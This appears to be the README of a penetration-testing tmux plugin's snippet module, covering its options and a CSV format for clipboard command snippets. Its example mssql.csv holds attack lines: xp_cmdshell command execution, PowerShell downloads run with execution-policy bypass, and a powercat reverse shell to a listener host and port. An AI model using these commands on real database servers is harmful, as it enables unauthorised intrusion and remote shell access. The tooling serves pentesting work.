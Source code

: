 # Snipper Module

This module is providing an interface to copy snippets to the clipboard which can use various penmux options (not restricted to this module) as paramters, flags, etc. so that you don't have to mess around with boring stuff.

It can be extended by csv files with new snippets as you like and has some dumb replacement parser to use dynamic values from penmux options, etc.

## 1. Keytable

Not implemented.

## 2. Options

The following configurable options are used by the Commander module.

| Option | Type | Default | Description |
|--------|------|---------|-------------|
|SnippetSearchPath | String | $HOME/.tmux/plugins/tmux-penmux/modules/auxiliary/Snipper/snippets | The search path for csv files providing snippets |
|ClipboardCommand | String | echo '\$\$snippet\$\$' | xclip -i -sel c | The command used to copy the snippet to the clipboard. The placeholder `'$$snippet$$'` will be replaced by the selected snippet |
|LocalHost | String | 127.0.0.1 | An option used by various commands. Can be seen like metasploit's LHOST |
|LocalPort | Integer | 4444 | An option used by various commands. Can be seen like metasploit's LPORT |

## 3. Adding snippets

You can extend the Snipper with snippets to your like. Either by extending existing csv files or creating new ones. The module is loading any csv or sh file from the 'SnippetSearchPath' recursively so that they can be grouped by using nested directories.

**If you're adding any snippets, please create an issue / pr so that others can benefit from**

### Needed files

For a new group of snippets, you need to create two files (csv and desc) under any sub folder inside the 'SnippetSearchPath' directory.
It has an empty custom folder that should be used for custom snippets and is not included in the git source.

Follow these steps to create a new snippet group (default configuration):
```
mkdir -p $HOME/.tmux/plugins/tmux-penmux/modules/auxiliary/Snipper/snippets/custom/my/new/group
touch $HOME/.tmux/plugins/tmux-penmux/modules/auxiliary/Snipper/snippets/custom/my/new/group/sub.csv
echo "My sub group provides some cool stuff" $HOME/.tmux/plugins/tmux-penmux/modules/auxiliary/Snipper/snippets/custom/my/new/group/sub.desc
```
The csv format is using just ',' as separator and contains the following columns:
| name | description | snippet | variables |
|------|-------------|---------|-----------|
|Unique name which is shown in the selector | A description of what the snippet is doing | The snippet, which is to be copied | Variables that will be asked to change by the user |

As example checkout the mssql group under 'databases/sql'

mssql.desc (this is the description shown by the selection window):
```
Snippets for mssql related things
```
mssql.csv (this is the csv file containing the snippet definitions):
```
name,description,snippet,variables
MsSQLExecuteCommand,MsSQL comamnd execution via xp_cmdshell,EXEC xp_cmdshell "§§§command§§§",§§§command§whoami§command that should be executed§§§
MsSQLExecuteCommandPsDownload,MsSQL comamnd execution via xp_cmdshell (download file via powershell),EXEC xp_cmdshell "powershell -ep bypass -nop iwr -uri ###HttpUri###§§§file§§§ -outfile §§§file§§§",§§§file§powercat.ps1§filename to download from host§§§
MsSQLExecuteCommandPsDownloadTemp,MsSQL comamnd execution via xp_cmdshell (download file via powershell to temp),EXEC xp_cmdshell "powershell -ep bypass -nop iwr -uri ###HttpUri###§§§file§§§ -outfile $env:TEMP\§§§file§§§",§§§file§powercat.ps1§filename to download from host§§§
MsSQLExecutePowercat,MsSQL comamnd execution via xp_cmdshell (powercat connection to host),EXEC xp_cmdshell "powershell -ep bypass -nop . powercat.ps1; powercat -c ###LocalHost### -p ###LocalPort### -ep",
MsSQLExecutePowercatTemp,MsSQL comamnd execution via xp_cmdshell (powercat connection to host in temp),EXEC xp_cmdshell "powershell -ep bypass -nop . $env:TEMP\powercat.ps1; powercat -c ###LocalHost### -p ###LocalPort### -ep",
```

### Braking it down

Let's check out one line to get an idea on what is going on:
```
MsSQLExecuteCommand,MsSQL comamnd execution via xp_cmdshell,EXEC xp_cmdshell "§§§command§§§",§§§command§whoami§command that should be executed§§§
```
- The first part `MsSQLExecuteCommand` is just the selector name shown to the user.
- The second part `MsSQL comamnd execution via xp_cmdshell` is just the description of what the snippet will do shown to the user.
- The third part `EXEC xp_cmdshell "§§§command§§§"` is the snippet that will be copied to the clipboard. It can use any placeholders that will be replaced like `###SessionDir###`. Further it has it's own replacements like `§§§command§§§` that are variables for the Snipper only and are automatically asked to change by the user.
- The last part `§§§command§whoami§command that should be executed§§§` are the variables used by the snippet. This format is specific to the Snipper and described [here](#snipper_var_format).

### <a name="#snipper_var_format"></a>Snipper variables format

**TODO**

### Replacement / Expanding

For detailed information of what can be added as dynamic values please refer to [String replacements](../misc/Replacements.md)

## 4. Development information

**TODO**
